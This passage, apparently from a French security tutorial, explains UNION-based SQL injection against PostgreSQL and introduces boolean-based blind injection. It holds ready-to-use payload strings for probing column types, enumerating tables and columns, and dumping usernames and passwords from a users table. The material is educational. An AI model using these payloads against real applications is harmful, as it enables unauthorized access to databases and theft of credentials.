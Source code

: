 Lorsque l'index dépasse le nombre réel de colonnes, l'application génère une erreur, ce qui permet à l'attaquant de déterminer le nombre exact de colonnes.

#### 2. Trouver les colonnes compatibles avec des chaînes

Après avoir déterminé le nombre de colonnes, l'étape suivante consiste à tester quelles colonnes acceptent des chaînes de caractères. Cela est crucial pour permettre à l'attaquant de récupérer des informations sensibles comme des noms d'utilisateurs ou des mots de passe. On injecte des valeurs de test telles que 'a' dans chaque colonne tour à tour :

```sql
' UNION SELECT 'a', NULL, NULL-- -
' UNION SELECT NULL, 'a', NULL-- -
' UNION SELECT NULL, NULL, 'a'-- -
```

> On notera que NULL est compatible avec tout les types de données.
{: .prompt-info}


### Exemple d'injection UNION

L'exemple est fait sur une base de données PostgreSQL. La syntaxe change en fonction de la base de données utilisée.

- Récupérer la version de la base de données :

```sql
' UNION SELECT NULL, VERSION()-- -
```

- Récupérer le nom des bases de données :

```sql
' UNION SELECT NULL, CURRENT_DATABASE()-- -
```

- Lister les tables de la base de données :

```sql
' UNION SELECT NULL, string_agg(concat(table_name), ',') FROM information_schema.tables-- -
```

- Lister les colonnes de la table 'users' :

```sql
' UNION SELECT NULL, string_agg(concat(column_name), ',') FROM information_schema.columns WHERE table_name = 'users'-- -
```

- Récupérer les informations d'un utilisateur :

```sql
' UNION SELECT NULL,string_agg(concat(username, ',', password), '; '),NULL from users-- - 
```

## Injection SQL aveugle basée sur les conditions (Boolean-based Blind SQL Injection)

L'injection SQL aveugle basée sur les conditions est utilisée lorsque l'application ne renvoie pas de résultats visibles mais que l'on peut exploiter la différence de comportement de l'application en fonction de la validité d'une condition. Ici, l'attaquant teste différentes conditions logiques et observe les variations dans les réponses de l'application (comme la présence ou l'absence d'une page d'erreur).
